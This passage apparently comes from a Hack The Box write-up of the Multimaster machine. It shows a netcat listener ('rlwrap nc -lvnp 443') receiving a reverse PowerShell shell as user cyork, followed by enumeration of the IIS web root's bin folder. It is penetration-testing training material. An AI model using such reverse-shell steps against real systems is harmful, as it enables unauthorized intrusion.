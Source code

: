 We get a connection back on our share and a shell as the user `cyork`.

```bash
root@darkness:~# rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.179] 51387
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Program Files\Microsoft VS Code> whoami
megacorp\cyork
```

### Privesc Cyork - Sbauer

Now that we have a shell as Cyork, let us enumerate the system with our newly gained privileges.

#### Enumeration as Cyork

Looking around as Cyork, it seems like we are now allowed to read in `C:\inetpub\wwwroot`.

```powershell
PS C:\inetpub\wwwroot\bin> Get-ChildItem

    Directory: C:\inetpub\wwwroot\bin

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         1/7/2020   9:28 PM                roslyn                                                                
-a----        2/21/2013   7:13 PM         102912 Antlr3.Runtime.dll                                                    
-a----        2/21/2013   7:13 PM         431616 Antlr3.Runtime.pdb                                                    
-a----        5/24/2018   1:08 AM          40080 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll                
-a----        7/24/2012  11:18 PM          45416 Microsoft.Web.Infrastructure.dll                                      
-a----         1/9/2020   4:13 AM          13824 MultimasterAPI.dll                                                    
-a----         1/9/2020   4:13 AM          28160 MultimasterAPI.pdb                                                    
-a----        2/17/2018   8:14 PM         664576 Newtonsoft.Json.dll                                                   
-a----       11/27/2018  11:30 PM         178808 System.Net.Http.Formatting.dll                                        
-a----       11/27/2018  11:28 PM          27768 System.Web.Cors.dll                                                   
-a----        1/27/2015   2:34 PM         139976 System.Web.Helpers.dll                                                
-a----       11/27/2018  11:31 PM          39352 System.Web.Http.Cors.dll                                              
-a----       11/27/2018  11:31 PM         455096 System.Web.Http.dll                                                   
-a----        1/31/2018  10:49 PM          77520 System.Web.Http.WebHost.dll                                           
-a----        1/27/2015   2:32 PM         566472 System.Web.Mvc.dll                                                    
-a----        2/11/2014   1:56 AM          70864 System.Web.Optimization.dll                                           
-a----        1/27/2015   2:32 PM         272072 System.Web.Razor.dll                                                  
-a----        1/27/2015   2:34 PM          41672 System.Web.WebPages.Deployment.dll                                    
```